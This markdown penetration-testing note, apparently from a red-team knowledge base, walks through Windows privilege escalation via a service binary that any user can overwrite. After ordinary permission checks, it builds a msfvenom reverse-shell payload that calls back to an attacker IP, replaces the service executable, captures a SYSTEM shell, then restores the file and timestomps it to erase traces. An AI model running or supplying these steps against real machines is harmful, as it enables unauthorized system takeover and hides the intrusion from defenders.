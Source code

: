 # Living off the Land

Weak service permissions that contains a binary file can be overwritten with a malware to gain **SYSTEM** privileges.

## 01 - Detect

### 1.1 - Command Prompt

**BUILTIN\\Users** are able to change the file configuration when running `icacls.exe`.

```
C:\> sc qc filepermsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: filepermsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\File Permissions Service\filepermservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : File Permissions Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\> icacls "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\Program Files\File Permissions Service\filepermservice.exe Everyone:(F)
                                                              NT AUTHORITY\SYSTEM:(F)
                                                              BUILTIN\Administrators:(F)
                                                              WIN-QBA94KB3IOF\Administrator:(F)
                                                              NT AUTHORITY\SYSTEM:(I)(F)
                                                              BUILTIN\Administrators:(I)(F)
                                                              BUILTIN\Users:(I)(RX)
                                                              APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                              APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

To verify even further with `accesschk.exe` it is possible.

```
C:\> accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```

### 1.2 - PowerShell

When running `Get-ACL` cmdlet that the **BUILTIN\\Users** are able to change the file configuration when running `icacls.exe`

```
PS C:\> get-acl "C:\Program Files\File Permissions Service\filepermservice.exe" | fl


Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files\File Permissions Service\filepermservice.exe
Owner  : BUILTIN\Administrators
Group  : WIN-QBA94KB3IOF\None
Access : Everyone Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         WIN-QBA94KB3IOF\Administrator Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Users Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
Audit  :
Sddl   : O:BAG:S-1-5-21-3025105784-3259396213-1915610826-513D:AI(A;;FA;;;WD)(A;;FA;;;SY)(A;;FA;;;BA)(A;;FA;;;LA)(A;ID;F
         A;;;SY)(A;ID;FA;;;BA)(A;ID;0x1200a9;;;BU)(A;ID;0x1200a9;;;AC)(A;ID;0x1200a9;;;S-1-15-2-2)

PS C:\> $acl = get-acl "C:\Program Files\File Permissions Service\filepermservice.exe"
PS C:\> convertfrom-sddlstring -sddl $acl.sddl | foreach-object {$_.DiscretionaryAcl}
Everyone: AccessAllowed (ChangePermissions, CreateDirectories, Delete, DeleteSubdirectoriesAndFiles, ExecuteKey, FullControl, FullControl, FullControl, FullControl, FullControl, GenericAll, GenericExecute, GenericRead, GenericWrite, ListDirectory, Modify, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, Synchronize, TakeOwnership, Traverse, Write, WriteAttributes, WriteData, WriteExtendedAttributes, WriteKey)
NT AUTHORITY\SYSTEM: AccessAllowed (ChangePermissions, CreateDirectories, Delete, DeleteSubdirectoriesAndFiles, ExecuteKey, FullControl, FullControl, FullControl, FullControl, FullControl, GenericAll, GenericExecute, GenericRead, GenericWrite, ListDirectory, Modify, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, Synchronize, TakeOwnership, Traverse, Write, WriteAttributes, WriteData, WriteExtendedAttributes, WriteKey)
BUILTIN\Administrators: AccessAllowed (ChangePermissions, CreateDirectories, Delete, DeleteSubdirectoriesAndFiles, ExecuteKey, FullControl, FullControl, FullControl, FullControl, FullControl, GenericAll, GenericExecute, GenericRead, GenericWrite, ListDirectory, Modify, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, Synchronize, TakeOwnership, Traverse, Write, WriteAttributes, WriteData, WriteExtendedAttributes, WriteKey)
WIN-QBA94KB3IOF\Administrator: AccessAllowed (ChangePermissions, CreateDirectories, Delete, DeleteSubdirectoriesAndFiles, ExecuteKey, FullControl, FullControl, FullControl, FullControl, FullControl, GenericAll, GenericExecute, GenericRead, GenericWrite, ListDirectory, Modify, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, Synchronize, TakeOwnership, Traverse, Write, WriteAttributes, WriteData, WriteExtendedAttributes, WriteKey)
NT AUTHORITY\SYSTEM: AccessAllowed Inherited (ChangePermissions, CreateDirectories, Delete, DeleteSubdirectoriesAndFiles, ExecuteKey, FullControl, FullControl, FullControl, FullControl, FullControl, GenericAll, GenericExecute, GenericRead, GenericWrite, ListDirectory, Modify, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, Synchronize, TakeOwnership, Traverse, Write, WriteAttributes, WriteData, WriteExtendedAttributes, WriteKey)
BUILTIN\Administrators: AccessAllowed Inherited (ChangePermissions, CreateDirectories, Delete, DeleteSubdirectoriesAndFiles, ExecuteKey, FullControl, FullControl, FullControl, FullControl, FullControl, GenericAll, GenericExecute, GenericRead, GenericWrite, ListDirectory, Modify, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, Synchronize, TakeOwnership, Traverse, Write, WriteAttributes, WriteData, WriteExtendedAttributes, WriteKey)
BUILTIN\Users: AccessAllowed Inherited (GenericWrite, ListDirectory, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, Synchronize, Traverse)
APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES: AccessAllowed Inherited (GenericWrite, ListDirectory, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, Synchronize, Traverse)
APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES: AccessAllowed Inherited (GenericWrite, ListDirectory, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, Synchronize, Traverse)
```

Shorten it

```
PS C:\> Get-ACL "C:\Program Files\File Permissions Service\filepermservice.exe" | Format-List AccessToString
```

## 02 - Exploit

TODO: Add these parts for the clean up process

```
PS C:\> Get-Item "c:\program files\file permissions service\filepermservice.exe" | Select-Object Name, CreationTime, LastWriteTime, LastAccessTime

PS C:\> Get-ItemProperty CreateShortcut.vbs | Select-Object Name, CreationTime, LastWriteTime, LastAccessTime
```

Before we overwrite the program we must first make a backup in case if it fails to start and also revert back to the original changes to clear our trace ahead of time. Then you can proceed to copy the shell to start a handler.

```
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=10.8.145.108 lport=53 -f exe-service -o filepermservice.exe

$ sudo nc -lnvp 53
```

- In command prompt

```
C:\> copy "c:\program files\file permissions service\filepermservice.exe" c:\temp\filepermservice.bak

C:\> copy /y shell.exe "c:\program files\file permissions service\filepermservice.exe"
        1 file(s) copied.

C:\> net start filepermsvc
```

- In powershell

```
PS C:\> copy-item "c:\program files\file permissions service\filepermservice.exe" c:\temp\filepermservice.bak

PS C:\> copy-item shell.exe "c:\program files\file permissions service\filepermservice.exe"

PS C:\> Start-Service filepermsvc
```

```
$ sudo nc -lnvp 53
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.10.57.86.
Ncat: Connection from 10.10.57.86:49820.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

## 03 - Cleanup

Now let's copy the original binary back to it's destination path to clear any malware we've inserted it.

- In command prompt

```
C:\Windows\system32> copy /y c:\temp\filepermservice.bak "c:\program files\file permissions service\filepermservice.exe"
```

- In powershell

```
PS C:\> copy-item c:\temp\filepermservice.bak "c:\program files\file permissions service\filepermservice.exe"
```

Manually add timestamp to clear any trace of activity.

```powershell
PS C:\> $file = "c:\program files\file permissions service\filepermservice.exe"
$creationtime = Get-Date "YYYY-MM-DD hh:mm:ss"
$lastwritetime = Get-Date "YYYY-MM-DD hh:mm:ss"
$lastaccesstime = Get-Date "YYYY-MM-DD hh:mm:ss"

Set-ItemProperty -Path $file -Name CreationTime -Value $creationtime
Set-ItemProperty -Path $file -Name LastWriteTime -Value $lastwritetime
Set-ItemProperty -Path $file -Name LastAccessTime -Value $lastaccesstime
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/13 - Anti-Forensics/Windows/Clear Traces/02 - Timestomps/Manual/Living off the Land|Windows: Timestomp]]

- [Red Team Notes: Weak Service Permissions](https://www.ired.team/offensive-security/privilege-escalation/weak-service-permissions)